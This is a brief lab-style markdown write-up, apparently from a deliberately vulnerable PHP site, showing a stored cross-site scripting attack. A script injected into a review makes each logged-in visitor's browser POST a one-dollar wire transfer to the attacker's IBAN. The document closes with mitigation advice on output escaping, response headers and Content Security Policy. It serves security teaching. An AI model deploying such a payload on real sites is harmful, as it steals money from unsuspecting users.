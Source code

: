 # Transfer funds to your account

This attack will exploit the reviews to transfer to you bank account an amount of money for each registered user that visits the homepage.

## Steps

- Register an user on the website and login
- Create a review and inject malicious javascript code 

    ```javascript
    <script>
        fetch('/wire-transfer.php', {
            method:'POST',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded'
            },
            body: 'iban=US1523100000054000784030479&amount=1&notes='
        })
    </script>
    ```
    
- Every time a logged in user visits the homepage, a dollar is transfered to your account

## Mitigation

- Sanitize sent and received data [htmlspecialchars()](https://www.php.net/manual/en/function.htmlspecialchars.php) function
- Use appropriate response headers
- Use Content Security Policy
